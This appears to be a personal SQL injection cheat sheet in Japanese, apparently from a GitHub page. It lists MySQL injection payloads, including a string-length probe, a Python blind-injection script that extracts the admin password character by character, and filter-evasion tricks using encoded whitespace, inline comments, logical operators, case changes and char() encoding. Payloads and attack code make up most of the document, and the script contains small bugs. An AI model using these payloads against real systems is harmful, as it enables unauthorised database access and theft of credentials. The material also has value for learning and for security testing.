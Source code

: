 # SQL Injection my cheet sheet

## Mysql

### 文字列の長さを調べる

```
?id=' and length(str)=8 -- -
```

これでログインが成功したときのページ繊維などが起きれば文字列の長さが8文字とわかる

### bind SQL Injection

`id`と`pass`というparamが存在し、passを求める場合

例

```python
import requests
url = ''
str_length = 1 # 取得する文字列の長さ
for index in range(1, str_length):
    for char_number in range(48, 123):
        char = chr(char_number)
        sql = 'admin\' AND SUBSTR((SELECT pass FROM user WHERE id = \'admin\'), {index}, 1) = \'{char}\' --'.format(index = index, char = char)
        payload = {
            'id' : sql,
            'pass' : ''
        }
        response = requests.post(url, data=payload)
        if len(response.text) > 2000: # 成功時にresponseの長さが変わる場合に有効
        # if len(response.txt).find('成功時に表示される文字列') != -1:
            print(char, end="")
            break
print()
```

### escape回避

* CR(Carriage Return) `%0d`で空白を挿入できる

```
?id='%0dor%0d'1'='1'--
```
> ?id=' or '1'='1'--

* LF(Line Feed) `%0a`で空白を挿入できる

```
?id='%0aor%0a'1'='1' #
```

> ?id=' or '1'='1'--

* Tab `0x09`でtabを挿入できる

```
?id='%09or%09'1'='1' #
```

> ?id=' or  '1'='1'--

* comment `/**/`でコメントを挿入すると空白なしで通る

```
?id='/**/or/**/'1'='1' #
```

> ?id='/* * /or/ * */'1'='1'--

* 論理演算子`||`, `&&`

```
?id=' || '1'='1' #
?id=' || '1'='1' && id = 'admin' #
```

* 文字列match

Mysqlでは大文字と小文字を区別しないのでBackEnd側で文字列が含まれていないかを検査していても回避することができる。

```php
# BackEnd
<?php
if(@ereg("admin",$_GET[id])) echo "error";
?>

# query
?id=ADMIN
```

* charで変換する

`admin`が送信される

```
?no=-1 or id=char(97, 100, 109, 105, 110)-- -
```
